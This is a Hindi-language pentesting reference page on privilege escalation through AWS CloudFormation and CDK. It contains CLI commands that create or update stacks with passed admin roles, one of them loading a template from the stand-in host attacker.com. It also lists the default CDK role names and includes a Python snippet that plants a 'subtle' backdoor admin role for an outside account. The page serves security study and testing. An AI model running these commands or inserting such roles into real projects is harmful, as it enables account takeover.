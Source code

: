 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

इन अनुमतियों के साथ एक हमलावर **अधिकारों को बढ़ा सकता है** एक **CloudFormation स्टैक** को कस्टम टेम्पलेट के साथ तैयार करके, जो उनके सर्वर पर होस्ट किया गया है, ताकि **निर्धारित भूमिका के अनुमतियों के तहत क्रियाएँ निष्पादित की जा सकें:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
इस पृष्ठ पर आपके पास एक **शोषण उदाहरण** है जिसमें अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** है:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक **मौजूदा क्लाउडफॉर्मेशन स्टैक** का दुरुपयोग कर सकते हैं ताकि इसे अपडेट किया जा सके और पिछले परिदृश्य की तरह विशेषाधिकार बढ़ाए जा सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम देने के लिए।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं है**, तो आप अभी भी **उपयोग किए गए स्टैक्स को अपडेट** कर सकते हैं और **IAM भूमिकाओं का दुरुपयोग कर सकते हैं जो पहले से ही संलग्न हैं**। शोषण उदाहरण के लिए पिछले अनुभाग की जांच करें (बस अपडेट में कोई भूमिका न बताएं)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम देने के लिए।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क जो पहले से ही संलग्न है।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **भूमिका पास करने और एक ChangeSet बनाने और निष्पादित करने की अनुमति है** वह **एक नया क्लाउडफॉर्मेशन स्टैक बना/अपडेट कर सकता है और क्लाउडफॉर्मेशन सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित शोषण **CreateStack एक**[ **का एक भिन्नता है**](#iam-passrole-cloudformation-createstack) जो **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए है।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `ChangeSet` अनुमतियाँ देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए प्रिवेस्क।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछले तरीके की तरह है बिना **IAM भूमिकाएँ** पास किए, इसलिए आप बस **पहले से जुड़े हुए का दुरुपयोग** कर सकते हैं, बस पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** पहले से जुड़े क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग करके स्टैकसेट्स को बनाने/अपडेट करने के लिए क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं के लिए प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग बिना पासरोल अनुमति के स्टैकसेट्स को अपडेट करने के लिए कर सकता है ताकि संलग्न क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग किया जा सके।

**संभावित प्रभाव:** संलग्न क्लाउडफॉर्मेशन भूमिकाओं के लिए प्रिवेस्क।

## AWS CDK

AWS cdk एक टूलकिट है जो उपयोगकर्ताओं को उनके परिचित भाषाओं में अपने बुनियादी ढांचे को कोड के रूप में परिभाषित करने की अनुमति देता है, साथ ही अनुभागों का आसानी से पुन: उपयोग करने की सुविधा भी देता है। CDK फिर उच्च-स्तरीय कोड (जैसे पायथन) को क्लाउडफॉर्मेशन टेम्पलेट्स (yaml या json) में परिवर्तित करता है।

CDK का उपयोग करने के लिए, एक प्रशासनिक उपयोगकर्ता को पहले खाते को बूटस्ट्रैप करना होगा, जो कई IAM भूमिकाएँ बनाता है, जिसमें *exec role* शामिल है, जिसमें \*/\* अनुमतियाँ होती हैं। ये भूमिकाएँ नामकरण संरचना `cdk-<qualifier>-<name>-<account-id>-<region>` का पालन करती हैं। बूटस्ट्रैपिंग को प्रति क्षेत्र प्रति खाते एक बार किया जाना चाहिए।

डिफ़ॉल्ट रूप से, CDK उपयोगकर्ताओं को CDK का उपयोग करने के लिए आवश्यक भूमिकाओं की सूची बनाने की अनुमति नहीं होती है, जिसका अर्थ है कि आपको उन्हें मैन्युअल रूप से निर्धारित करना होगा। यदि आप किसी डेवलपर की मशीन या किसी CI/CD नोड से समझौता करते हैं, तो इन भूमिकाओं को ग्रहण किया जा सकता है ताकि आप CFN टेम्पलेट्स को तैनात करने की क्षमता प्राप्त कर सकें, `cfn-exec` भूमिका का उपयोग करके CFN को किसी भी संसाधन को तैनात करने की अनुमति देने के लिए, जिससे खाते का पूर्ण समझौता हो जाता है।

### भूमिका नाम निर्धारित करना

यदि आपके पास `cloudformation:DescribeStacks` है, तो भूमिकाएँ `CDKToolkit` नामक एक स्टैक में परिभाषित हैं, और आप वहां से नाम खींच सकते हैं।

यदि आप किसी मशीन पर हैं जिसका उपयोग CDK परियोजनाओं को बनाने और तैनात करने के लिए किया गया है, तो आप उन्हें परियोजनाओं की मूल निर्देशिका में `cdk.out/manafest.json` से खींच सकते हैं।

आप यह अनुमान लगाने में भी सक्षम हो सकते हैं कि वे क्या हैं। `qualifier` एक स्ट्रिंग है जो भूमिकाओं में जोड़ी जाती है जिससे एक साथ कई CDK बूटस्ट्रैप के उदाहरणों को तैनात किया जा सके, हालाँकि डिफ़ॉल्ट मान को हार्ड-कोड किया गया है `hnb659fds`।
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### परियोजना स्रोत में दुर्भावनापूर्ण कोड जोड़ना

यदि आप परियोजना स्रोत में लिख सकते हैं, लेकिन इसे स्वयं तैनात नहीं कर सकते (उदाहरण के लिए, डेवलपर कोड को CI/CD के माध्यम से तैनात करता है, न कि स्थानीय मशीन से), तो आप स्टैक में दुर्भावनापूर्ण संसाधन जोड़कर वातावरण को समझौता कर सकते हैं। निम्नलिखित एक IAM भूमिका जोड़ता है जिसे एक हमलावर खाते द्वारा ग्रहण किया जा सकता है, एक python CDK परियोजना में।
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## संदर्भ

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
